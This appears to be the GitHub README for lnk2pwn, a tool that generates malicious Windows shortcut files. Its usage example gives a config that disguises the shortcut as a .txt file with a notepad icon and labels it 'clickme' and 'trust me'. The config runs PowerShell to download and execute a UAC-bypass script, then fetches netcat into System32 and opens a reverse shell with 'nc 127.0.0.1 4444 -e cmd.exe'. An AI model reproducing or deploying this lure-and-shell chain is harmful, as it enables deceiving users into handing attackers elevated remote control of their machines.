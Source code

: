 # lnk2pwn
Malicious Shortcut(.lnk) Generator

## About
**lnk2pwn** is a cli tool that automates the process of generating malicious .lnk(Windows shortcut) files.

## Installation
lnk2pwn requires **python2.7** and **wine** to create a Windows shortcut:

```shell
sudo apt-get install python2.7
sudo apt-get install wine
```
You can get the lastest version by clonning this repository:

```shell
git clone https://github.com/tommelo/lnk2pwn
```

## Usage

```shell
python lnk2pwn.py <options>
```

See the options overview:

Short opt | Long opt | Default | Required | Description
--------- | -------- | ------- | -------- | -----------
-g        | --generate    | True        | Yes | generates a malicious .lnk file
-c        | --config-file | config.json | Yes | the shortcut config file
-o        | --output-path | None        | Yes | the output path
-h        | --help        | None        | No  | shows the help usage
N/A       | --version     | None        | No  | shows the application's current version

## The config.json File

The project contains a template file called config.json that defines the attributes of the .lnk file:
```shell
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\cmd.exe",
        "working_dir": "C:\\Windows\\System32",
        "arguments": "/c notepad.exe",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "lnk2pwn",
        "fake_extension": ".txt",
        "file_name_prefix": "lnk2pwn"
    },

    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe"
    }
}
```
## Usage Example

Generating a malicious .lnk file that bypasses UAC, downloads and executes netcat:

config.json
```shell
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\cmd.exe",
        "working_dir": "C:\\Windows\\System32",
        "arguments": "/c powershell.exe iwr -outf %tmp%\\p.vbs http://127.0.0.1/uac_bypass.vbs & %tmp%\\p.vbs",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "trust me",
        "fake_extension": ".txt",
        "file_name_prefix": "clickme"
    },

    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe /c powershell.exe -nop -w hidden iwr -outf C:\\Windows\\System32\\nc.exe http://127.0.0.1/nc.exe & C:\\Windows\\System32\\nc.exe 127.0.0.1 4444 -e cmd.exe"
    }
}
```
Generating the files:
```shell
python lnk2pwn.py -c config.json -o /var/www/html
```

## Piped Input

You can pipe the config json content to the application:
```shell
cat config.json | python lnk2pwn.py -o /var/www/html
```

## License
This is an open-source software licensed under the [MIT license](https://opensource.org/licenses/MIT).
